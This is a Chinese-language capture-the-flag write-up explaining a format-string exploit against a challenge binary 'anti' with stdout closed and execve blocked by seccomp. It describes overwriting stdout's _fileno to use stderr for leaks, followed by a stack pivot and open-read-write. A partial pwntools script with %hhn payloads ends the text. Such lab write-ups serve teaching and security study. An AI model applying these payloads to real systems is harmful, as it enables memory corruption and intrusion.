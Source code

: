 可以看到与unprintable类似，同样进行了close(1)。但用seccomp查看可以发现禁用了execute系统调用：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204112.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204112.png)

并且还开启了pie，因此做法就不能与unprintable相同了。

这里利用了IO结构中的`_fileno`，正常情况下，stdin、stdout、stderr分别对应1、2、3。通过修改这个值，可以将输入输出重定向到其他标识符中。这里只关闭了1（即`标准输出`），但是2（也就是`标准错误输出`）没有关闭，因此可以将其改为2，通过`标准错误输出`来进行输出，接着就可以进行leak，然后迁栈到buf中进行orw了。

这里的关键点在于如何修改stdout的`_fileno`，通过观察可以发现在给出的栈地址相对偏移`-70`的地方存在`_IO_2_1_stdout`的地址：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204104.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204104.png)

通过修改其低字节为`\x90`即可指向`_fileno`，接着就是如何对其进行写入操作了。

这里需要爆破一下，将从vuln返回后能够进入到读取字符串处，只要将rbp改为上述`栈地址+0x18`处，即可实现修改：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204058.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204058.png)

为了实现这一目的，首先先看下栈上有什么东西：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204048.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025204048.png)

可以看到存在三个栈指针地址（`0`、`4`、`8`），以及一系列pie地址，第一步要做3个操作：
1. 将`2`处低2位爆破为上述目标地址，从而进行读写。
1. 将返回地址（即`1`）修改为ret指令的地址，以便执行2处地址。（因为只能通过%hhn写入一字节，直接修改这个地址会直接跳转过去导致失败）
<li>将rbp（即0）修改为给出的`栈地址-0x58`
</li>
这里2和3步骤需要同时完成，同时，为了使读取`_fileno`后返回还能正常输入，这里需要将`栈地址-0x58`的值修改为`栈地址+0xc0`，也就是使其返回后执行start函数（这里因为将`_fileno`修改为2了，所以`close(1)`不会再产生影响）。

到这里就完成了输出的重定向，接着就是leak，然后迁栈以及orw即可了。

exp：

```
from pwn import *
p = process("./anti")
libc = ELF("anti").libc
p.recvuntil(" 0x")
stack = int(p.recv(12),16)
print "stack1 : " + hex(stack)

#chang stdout
pay = "%"+str((stack-0x18)&amp;0xff)+"c%6$hhn"
p.sendline(pay)

pay = "%"+str((stack-0x70)&amp;0xff)+"c%10$hhn"
p.sendline(pay)

pay = "%"+str(0x90)+"c%6$hhn"
p.sendline(pay)


#set ret addr2    1/16
pay = "%"+str((stack-0x18)&amp;0xff)+"c%10$hhn"
p.sendline(pay)

pay = "%"+str((stack-0x8)&amp;0xff)+"c%6$hhn"
p.sendline(pay)

pay = "%"+str(0xdf)+"c%6$hhn"
p.sendline(pay)

pay = "%"+str((stack-0x8+1)&amp;0xff)+"c%10$hhn"
p.sendline(pay)
```